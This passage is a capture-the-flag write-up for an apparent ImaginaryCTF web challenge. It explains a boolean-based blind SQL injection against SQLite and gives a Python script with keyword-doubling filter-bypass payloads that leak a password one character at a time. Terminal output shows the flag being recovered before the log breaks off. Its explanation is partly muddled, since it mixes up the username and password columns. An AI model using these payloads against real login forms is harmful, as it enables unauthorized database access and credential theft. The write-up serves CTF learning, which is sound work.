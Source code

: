 This is the part of the post where I've really struggled to explain how this payload works, and why it works, so I'm going to break it into parts.

The important comparison being `AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('z');`, in `substr(password,1,1)`, we select the first character of the first row of the `username` column, and with `hex(substr(password,1,1))` we retrive the hexidecimal representation of the said first character, we then compare it to the hexidecimal representation of the character `z`, and if the quantity of the hex representation of the first character of the password is higher than the injected one, it'll evaluate to True, so if you cycle through the hexidecimal representation of ASCII characters starting from `0` to `127` sequentially , and once we hit a certain character which will trigger an evalation to be False, we know that is correct character, and we increment the character index from  `hex(substr(password,1,1))` to `hex(substr(password,2,1))` until we've obtained the full flag, this is quite a time consuming process if done manually, which is why scripting it is a good idea, which is what I've done.

```py
#!/usr/bin/env python3
import requests
from time import sleep
"""
	Description: Boolean sqlite SQLi
"""

HOST = "https://awkward-bypass.chal.imaginaryctf.org/user"

LENGTH = 1 
FLAG = ""
while True:
	for number in range(21, 126):
		# breaks the query, resulting in a 'Found' which is invalid, resetting it back to
		
		if bytes.fromhex(hex(number)[2:].zfill(2)) == b"'":
			number = 21
		

		# Assigned it to a variable for better readability
		char = bytes.fromhex(hex(number)[2:].zfill(2)).decode("utf-8")
		data = {"username":"' OorR 1=1 AandND (SEselectLECT hex(substr(paASsswoORrd,{1},1)) FRfromOM sqlite_maASster WHwhereERE type='tatableble' AandND tbl_name NnnoOTOT LIlikeKE  'sqlite_%' LIlimitMIT 1 OofFFSsetET 0) > hex('{0}'); -- -".format(char,LENGTH),"password":"whatever"}
		req = requests.post(HOST, data=data)
		
		if req.text == "Error":
			FLAG += bytes.fromhex(hex(number)[2:].zfill(2)).decode("utf-8")
			LENGTH += 1
			print("It was number:",number)
			print(f"Found!: {FLAG}")
			break
		

```

```sh
utopia@messiah:~/Documents/CTFs/Build-A-Website$ python3 exploit.py   
It was number: 105  
Found!: i  
It was number: 99  
Found!: ic  
It was number: 116  
Found!: ict  
It was number: 102  
Found!: ictf  
It was number: 123  
Found!: ictf{  
It was number: 110  
```